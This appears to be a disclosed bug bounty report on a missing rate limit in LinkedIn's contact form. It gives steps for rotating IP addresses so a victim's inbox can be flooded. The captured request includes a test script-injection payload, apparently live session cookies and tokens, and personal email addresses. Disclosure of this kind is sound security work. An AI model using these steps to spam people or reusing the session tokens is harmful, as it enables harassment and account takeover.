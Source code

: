 # Rate limit Bypass on contact-us through IP Rotator (burp extension)(https://www.linkedin.com/help/linkedin/solve/contact)

## Report Details
- **Report ID**: 1578121
- **URL**: https://hackerone.com/reports/1578121
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2022-05-22T09:04:00.642Z
- **Disclosed**: 2022-06-15T21:10:06.862Z

## Reporter
- **Username**: sachinrajput
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: linkedin

## Vulnerability Information
hello Team
i have found issue on https://www.linkedin.com/help/linkedin/solve/contact , which spam the mail box of victim (through alternative email) and support team.
Steps 
1. Go to https://www.linkedin.com/help/linkedin/solve/contact
2. Fill the Form
3. Fill the victim mail id in alternative email.
4.Start IP Rotatorr (Burp Extension) for bypass the rate-limit.
    ( https://portswigger.net/bappstore/2eb2b1cb1cf34cc79cda36f0f9019874)
5. Capture the request.

HTTP REQUEST

POST /help/linkedin/api/ticket/new?page_key=hc_smarter_assist&lipi=urn%3Ali%3Apage%3Ahc_solve%3BHaCrDTZIQGaymuZQSvEoTw%3D%3D HTTP/2
Host: www.linkedin.com
Cookie: bcookie="v=2&c4f317bf-bed0-495f-8496-d1b53544d1c4"; bscookie="v=1&202110081507174a83b87c-0d5d-4b78-8691-e7eb51b819d6AQHmFhjM3oKhpmPl-g67WgT5UkwJSxda"; li_rm=AQEFn2UeyuLk9wAAAYDcvJnTHb73kYJw6UFmfLlXFBMGZSWGplNujPE6Hh3Wpm1tONATBA15Byos33xXv5lHPUrD9baf3W4G7WlsX-FN2vLE0eRRseNYAP_8tTgZ18CPQ-FdTr3mNwiMyo1P3eARQQma20XvGaJIEF8F79LkaZIYXk-BUp0VhWzMUYamzn-8lIY61pl65qMbgIrwMLtQfKYyM7pQ_z5k9GlPo_bwy2Uy24QnKXRw71ideBf7WuMTPpXpLaBG9LGZM3ZY8oZtvlL_ZZ5-JrbGFVJUELYBjd5LcExjjb18eZzw47QUczhvnGxzzeDg2B0NsIyc-_g; g_state={"i_l":3,"i_p":1653575596396}; G_ENABLED_IDPS=google; timezone=Asia/Kolkata; li_theme=light; li_theme_set=app; li_mc=MTswOzE2NTMyMDc5MzA7MTswMjEF8QNpG1iJaJfCqv0+88KjLXLqdlvBLjPuxCZuAQOYOg==; li_alerts=e30=; visit=v=1&M; li_gc=MTswOzE2NTI5NzA3ODk7MjswMjFkSg/yf65s1QypezQZsH0W9ajBD2B0DVWIY9G2hIILOw==; JSESSIONID="ajax:1140114095873524025"; UserMatchHistory=AQKj5fR0mR7oJQAAAYDqurzF6lb9b8uswj6Z5l6vZllwjzWMK2a0-LI760kRMfhuXJAqDBgXGgbTOGGkNPmFYG8G0KQgxX45NsoDiOk_XrskWULZok5h3FmANIjbdieFC-Wu7lAykeAaK4iS6eSxL7GsfGmA6Er6S5PgUNQjZ0pnwcDZyPx_CJAX3LAO9YlnUTcscJ6P7SLjXeCv4zxPLIJDdd1kot10ma8qA7khVUNMXqX0sVi3sJ84bi4flAZWB4t5g56qmQ; cap_session_id=4016886046:1; li_er=v=1&r=urn:li:contract:396850646&t=1651318702036&g=MDIxwMB8HbZ4pkHlcKjmNWVgXQU708vn4ctzjdu9DLdCVAs=; u_tz=GMT+05:30; li_at=AQEDATumkO8By_toAAABgN_E99QAAAGBA9F71E4Ap4xA8olRhCz_2fWkh9V9Yg0_YpIU3E8M2YK7TKMxvwV4LlWFinQebObeHNvAJa_iwPamoe9BfcdWl8cjr7WSls0XAMBG9DjMi7Itzt4OkQHpgNzo; liap=true; li_a=AQJ2PTEmY2FwX3NlYXQ9Mjc2Mzg3MDE2JmNhcF9hZG1pbj1mYWxzZSZjYXBfa249Mzk2ODUwNjQ2SCsATU1i0kEIAdqllopHZmTEvrk; lidc="b=TB23:s=T:r=T:a=T:p=T:g=3826:u=2:x=1:i=1653195903:t=1653282303:v=2:sig=AQGCZy6T9vR93sKtbfJliGAugit-RF6R"; lang=v=2&lang=en-US; sdsc=1%3A1SZM1shxDNbLt36wZwCgPgvN58iw%3D; PLAY_SESSION=eyJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InNlc3Npb25faWQiOiI3YmZkZDdjNS0yZDgyLTQzN2ItOGIwZS0yNjFiNDU5ZWZhYTV8MTY1MzIwNzUxNiIsImFsbG93bGlzdCI6Int9IiwicmVjZW50bHktc2VhcmNoZWQiOiIiLCJyZWZlcnJhbC11cmwiOiJodHRwczovL3d3dy5saW5rZWRpbi5jb20vIiwiYWlkIjoiIiwiUk5ULWlkIjoifDAiLCJyZWNlbnRseS12aWV3ZWQiOiI1MDE5MSIsIkNQVC1pZCI6IsKeXHQnX8OXUMOgXHLDn1bCvcKMw6vDrCxMIiwiZXhwZXJpZW5jZSI6InNtYXJ0IGFzc2lzdCIsImlzX25hdGl2ZSI6ImZhbHNlIiwidHJrIjoicHNldHRpbmdzLWRhdGEtZXhwb3J0X2FwaSJ9LCJuYmYiOjE2NTMyMDgwMjUsImlhdCI6MTY1MzIwODAyNX0.JgW5QI-j18ogKdtRln0yz2kaXUA_LyQ6cUhk4TH2-nQ; PLAY_LANG=en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Csrf-Token: ajax:1140114095873524025
Content-Length: 749
Origin: https://www.linkedin.com
Referer: https://www.linkedin.com/help/linkedin/solve/contact
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

suppliedname=Rahul+kumar&email=hiiamsachinkumar%40gmail.com&altemail=kumarsachin1642001%40gmail.com&c%24customer_classification=732&c%24app=2060&c%24platform=1371&description=%22%3E%3Cscript%3Ealert(%221%22)%3C%2Fscript%3E&attachments=%5B%5D&first_name=Rahul&last_name=kumar&user_message=Email%3A+%3A+hiiamsachinkumar%40gmail.com%3Cbr%3E%3Cbr%3EAlternate+Email%3A+%3A+kumarsachin1642001%40gmail.com%3Cbr%3E%3Cbr%3EIssue+Type+%3A+Inbox%2FInvitations%2FMessages%3Cbr%3E%3Cbr%3EIn+Which+App+or+Site%3F+%3A+LinkedIn+(Mobile+App)%3Cbr%3E%3Cbr%3EOn+What+Device%3F+%3A+iPad%3Cbr%3E%3Cbr%3EYour+Question+%3A+%22%3E%3Cscript%3Ealert(%221%22)%3C%2Fscript%3E&name=Submit+Your+Question&path=LI-DEFAULT-NEW&subject=%22%3E%3Cscript%3Ealert(%221%22)%3C%2Fscript%3E 

DONE

## Impact

No Rate Limit On Contact Us
Attacker can spam the victim Gmail by using alternative email endpoint.

## Attachments
- no-rate_limit_on_contact-us_--1.png
- victim_gmail.png
